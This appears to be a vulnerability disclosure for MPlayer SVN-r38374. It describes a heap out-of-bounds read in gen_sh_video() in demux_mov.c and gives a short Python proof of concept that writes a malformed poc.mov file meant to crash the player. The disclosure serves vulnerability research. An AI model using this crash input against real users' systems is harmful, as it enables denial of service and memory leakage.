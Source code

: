 # mplayer has a heap overflow vulnerability

## Affected versions

SVN-r38374

## Download and installation method

Use the following command to download the latest version of the source code from the mplayer repository:
- svn checkout svn://svn.mplayerhq.hu/mplayer/trunk mplayer
Then enter the mplayer directory and execute the following command to roll back to version 38374 where the vulnerability occurred:
- svn up -r 38374

## Vulnerability Details

There is a heap overflow vulnerability in the gen_sh_video() function in the libmpdemux/demux_mov.c file in the Mplayer source code directory.

<img width="640" alt="image" src="https://github.com/user-attachments/assets/f55596a6-b93b-4115-8f43-cb55693b0227" />

The size of the variable poffs is not checked before using the mp_msg() function to print the prompt information, resulting in an out-of-bounds read of the heap memory and leaking sensitive address information or data in the program.
During the out-of-bounds read process, it is possible that a segment fault occurs when accessing unmapped virtual memory, causing the program to crash.

POC
poc.mov
```
with open("poc.mov", "wb") as f:
    f.write(b'\x00' * 14)  # 14 bytes placeholder
    
    # sps count = 1
    f.write(b'\x01')
    
    f.write(b'\xFF\xFF')
    
    # dummy sps data
    f.write(b'\x00' * 0xFFFF)
    
    # pps count = 0xFF (超大)
    f.write(b'\xFF')
    
    for _ in range(0xFF):
        f.write(b'\xFF\xFF')  # 长度
        f.write(b'\x00' * 0xFFFF)
```
Running poc.mov causes the system to crash
<img width="640" alt="image" src="https://github.com/user-attachments/assets/0e1b2d05-abd7-46f8-9116-37e3e4c153a0" />
